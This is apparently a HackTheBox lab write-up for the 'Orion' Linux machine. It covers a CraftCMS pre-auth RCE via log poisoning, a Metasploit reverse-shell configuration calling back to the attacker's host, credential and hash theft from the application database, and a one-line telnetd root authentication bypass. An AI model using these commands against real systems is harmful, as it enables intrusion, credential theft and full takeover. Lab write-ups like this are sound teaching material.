# Orion — HackTheBox

| | |
|---|---|
| **Difficulty** | Very Easy |
| **OS** | Linux |
| **Machine Author** | Pho3o |

## Synopsis

Orion is a very easy Linux machine centered on CraftCMS. The foothold is achieved by exploiting **CVE-2025-32432**, a pre-authentication RCE in CraftCMS that chains an Nginx access-log poisoning technique with a Yii2 `PhpManager` gadget to get arbitrary PHP execution. From there, CraftCMS's `.env` file leaks database credentials, which lead to a crackable admin password hash reused for SSH/web access. Privilege escalation comes from a local-only Telnet service running a vulnerable version of `telnetd`, exploitable via **CVE-2026-24061**, an authentication bypass that grants a root shell with no credentials.

## Skills Learned

- CraftCMS pre-auth RCE via Nginx access-log poisoning (CVE-2025-32432)
- Metasploit module configuration and payload selection
- MySQL credential/database enumeration from a limited shell
- Bcrypt hash cracking with John the Ripper
- Identifying local-only services with `ss`/`netstat`
- Telnetd authentication bypass via environment variable injection (CVE-2026-24061)

---

## Enumeration

### Nmap

An initial scan showed only two open ports: **22 (SSH)** and **80 (HTTP)**. The HTTP response redirected to `orion.htb`, which was added to `/etc/hosts`.



### Directory Enumeration

`feroxbuster` was slow to complete, so I switched to `gobuster`, then cross-checked results with `ffuf`:

```
gobuster dir -u http://orion.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt

ffuf -u http://orion.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ic
```




This surfaced `/admin/login` (302) and `/assets` (301), along with a 200 on the index page.

### Identifying CraftCMS

The landing page footer mentioned "Powered by CraftCMS," but the version wasn't exposed there or via basic `curl` probing. Checking the directory-enumerated `/admin/login` endpoint directly revealed it in the page source:





**CraftCMS version: 5.6.16**

**Lesson learned:** the directory enumeration had already surfaced `/admin/login`, but I didn't immediately act on it. Every endpoint found during recon is worth checking as it comes in, not just noted and moved past.

---

## Foothold — CVE-2025-32432

A quick search turned up a public exploit for CraftCMS 5.6.16. The vulnerability works as follows:

- CraftCMS's asset-handling gadget calls `loadFromFile($this->itemFile)`, which internally does `require $file` — meaning it will parse **any file on disk as PHP**.
- The Nginx access log reflects the client's `User-Agent` header verbatim.
- By sending a request with a PHP payload in the `User-Agent`, then pointing the gadget's `itemFile` at `/var/log/nginx/access.log`, the poisoned log line gets `require`'d and executed as PHP.

Reference: [SensePost — Investigating an in-the-wild campaign using RCE in CraftCMS](https://sensepost.com/blog/2025/investigating-an-in-the-wild-campaign-using-rce-in-craftcms/#technical-analysis)

### Exploitation via Metasploit

A public Python PoC exists, but I ended up using the Metasploit module for reliability:

```
msf6 > search craftcms
msf6 > use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432
msf6 exploit(...) > show options
```




Required options:

```
set RHOSTS <target-ip>
set VHOST orion.htb
set LHOST <tun0-ip>
set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp
run
```

The module's default payload wasn't compatible with its fetch-based stager, throwing `bad-config: Unsupported Binary Selected` until `PAYLOAD` was explicitly set to a matching `cmd/linux/http/x64/...` payload.



Once configured correctly, the module leaked the PHP session save path, confirmed the target was vulnerable, and dropped a Meterpreter session:

```
[+] Leaked session.save_path: /var/lib/php/sessions
[+] The target is vulnerable. Session path leaked
[*] Meterpreter session 1 opened
```



---

## User — Database Credentials & Hash Cracking

CraftCMS stores its environment configuration in a `.env` file at the web root. Reading it from the Meterpreter shell exposed the MySQL credentials for the application's database:



Using those credentials against the local MySQL instance:

```
mysql -u root -p'SuperSecureCraft123Pass!' -h 127.0.0.1 orion -e "SHOW TABLES;"
```



The `users` table contained an admin account with a bcrypt password hash:

```sql
SELECT username, email, password FROM users;
```



```
admin   adam@orion.htb   $2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS
```

The email address revealed the actual system username: **adam**.

### Cracking the Hash

`hashcat` had no OpenCL/GPU backend available on the Kali VM, so I switched to John the Ripper (CPU-based, no extra setup needed):

```
john --wordlist=/usr/share/wordlists/rockyou.txt admin_hash.txt
john --show admin_hash.txt
```



**Cracked password: `darkangel`**

### Access as adam

SSH login attempts with `adam:darkangel` failed, but the credentials worked for the CraftCMS admin panel on the web, and separately as a shell login for `adam` on the box, yielding the user flag:




---

## Privilege Escalation — CVE-2026-24061

### Finding the local-only service

Enumerating listening sockets as `adam`:

```
ss -tulnp
```



```
tcp   LISTEN   127.0.0.1:23     <- Telnet, local-only
tcp   LISTEN   0.0.0.0:80       <- CraftCMS
tcp   LISTEN   0.0.0.0:22       <- SSH
tcp   LISTEN   127.0.0.53:53    <- systemd-resolved (local DNS stub)
tcp   LISTEN   127.0.0.1:3306   <- MySQL (already known, tied to CraftCMS)
```

Port 3306 is local-only but belongs to CraftCMS's own database. The odd one out — local-only and unrelated to CraftCMS — is **Telnet on 127.0.0.1:23**.

### Identifying the version

```
/usr/local/sbin/telnetd --version
```

```
telnetd (GNU inetutils) 2.7
```

This is a custom-placed binary (not the distro package) at `/usr/local/sbin/telnetd`, launched by `inetd` as `nowait root` — meaning any auth bypass here leads directly to root.

### Exploiting CVE-2026-24061

GNU inetutils `telnetd` 2.7 is affected by a critical (CVSS 9.8) authentication bypass: the client-controlled `USER` environment variable is passed unsanitized into the `login` command during telnet's NEW_ENVIRON negotiation. Setting `USER` to `-f root` causes `login` to interpret it as `login -f root` — forcing a login as root with no password.

```bash
USER="-f root" telnet -a 127.0.0.1 23
```

This dropped straight into a root shell, no credentials required, yielding the root flag.

---

## Summary

| Stage | Technique |
|---|---|
| Recon | nmap, gobuster/ffuf directory enumeration |
| Foothold | CraftCMS 5.6.16 pre-auth RCE — Nginx log poisoning + Yii2 gadget (CVE-2025-32432) |
| Credential Access | `.env` DB creds → MySQL `users` table → bcrypt hash cracked with John (`darkangel`) |
| User | Reused CraftCMS admin creds gave shell access as `adam` |
| Priv Esc | Local-only `telnetd` (GNU inetutils 2.7) → auth bypass via `USER` env injection (CVE-2026-24061) |
| Root | `USER="-f root" telnet -a 127.0.0.1 23` |
